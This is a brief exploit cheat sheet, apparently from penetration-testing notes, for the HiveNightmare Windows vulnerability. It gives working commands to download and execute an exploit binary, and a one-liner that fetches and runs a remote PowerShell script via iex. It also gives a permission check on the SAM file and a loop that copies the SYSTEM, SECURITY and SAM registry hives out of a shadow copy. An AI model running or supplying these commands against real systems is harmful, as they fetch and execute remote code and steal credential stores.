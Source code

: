 ### Requirements
```
- system protection must be in enabled state
- system must have at least one shadow copy
```

### Exploit
```
iwr https://github.com/GossiTheDog/HiveNightmare/releases/download/0.6/HiveNightmare.exe -OutFile HiveNightmare.exe
.\HiveNightmare.exe
```

### Alternative
```
iex((New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/WiredPulse/Invoke-HiveNightmare/main/Invoke-HiveNightmare.ps1'))
```

### Manually - check for read permissions
```
icacls C:\Windows\system32\config\sam
```

### Copy shadow copy (sometimes HarddiskVolumeShadowCopy2 or HarddiskVolumeShadowCopy3)
```
foreach($i in @("SYSTEM","SECURITY","SAM")){[System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\$i", "C:\temp\$i")};
```

### References
* https://github.com/GossiTheDog/HiveNightmare  
* https://github.com/WiredPulse/Invoke-HiveNightmare  

